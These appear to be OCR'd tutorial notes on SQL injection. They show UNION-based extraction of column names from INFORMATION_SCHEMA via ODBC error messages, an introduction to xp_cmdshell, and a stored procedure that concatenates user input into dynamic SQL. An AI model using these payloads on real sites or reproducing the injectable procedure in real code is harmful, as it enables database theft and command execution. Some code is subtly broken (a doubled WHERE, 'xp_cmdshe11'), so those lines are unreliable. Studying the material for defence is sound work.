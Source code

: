 Once table identified, obtaining the column names provides valuable information concerning the table and its contents.

Examples:
- acquire column names by accessing the database table `INFORMATION_SCHEMA.COLUMNS`.
- The injection attack begins with the URL:
  ```sql
  https://page/index.asp?id=20 UNION SELECT TOP 1 COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
  WHERE TABLE_NAME= 'parts' --
  ```

  - The corresponding **ODBC error message**: gives the first column name in `Parts` table as `partnum`

  ```bash
  Microsoft OLE DB Provider for ODBC Drivers error '80040e07'
  [Microsoft] [ODBC SQL Server Driver] [SQL ServerJSyntax error converting the nvarchar value 'partnum' to a column of data type int.
  /index.asp, line 6
  ```

- To obtain, the second column name, the expression `not IN ()` can be applied as shown:
  ```sql
  https://page/index.asp?id=20 UNION SELECT TOP 1 COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
  WHERE TABLE_NAME= 'parts' WHERE COLUMN_NAME not IN ('partnum') --
  ```
  - The corresponding **ODBC error message**: provides the next column name as `partcost`.

```bash
Microsoft OLE DB Provider for ODBC Drivers error '80040907'
[Microsoft] [ODBC SQL Server Driver] [SQL ServerJSyntax error converting the nvarchar value 'partcost' to a column of data type int.
/index.asp, line 6
```

In this manner, all the remaining columns in the table can be found.

---

### Stored Procedures

Stored procedure:
- group of SQL statements that is designed to perform a specific task.
- an alternative to having the `application layer construct SQL statements dynamically`.
- A stored procedure can be `called by its name and pass the required parameters to the procedure`.

SQL injection can also use stored procedures in a web server database.
- SQL injection can be initiated if the stored procedure is not employed properly.

One useful procedure: `master.dbo.xp_cmdshe11`, incorporates follow syntax:
- `xp_cmdshell ( 'Command_string' ) [, no_output]`
- The argument `'command_string'` is an SQL command.

Example:
- following construction <font color=LightSlateBlue> provides employee info from an employee name search </font>:

  ```sql
  CREATE PROCEDURE SP_EmployeeSearch @Employeename varchar(200) = NULL AS
  DECLARE @sql nvarchar(2000)
  SELECT @sql = 'SELECT EmloyeeNum, EmployeeName, Title, Salary' + 'FROM Employee Where'
  IF @EmployeeName IS not NULL
  SELECT @sql = @sql + ' EmployeeName LIKE ' ' ' + @employeename + ' ' ' '
  EXEC (@sql)
  ```
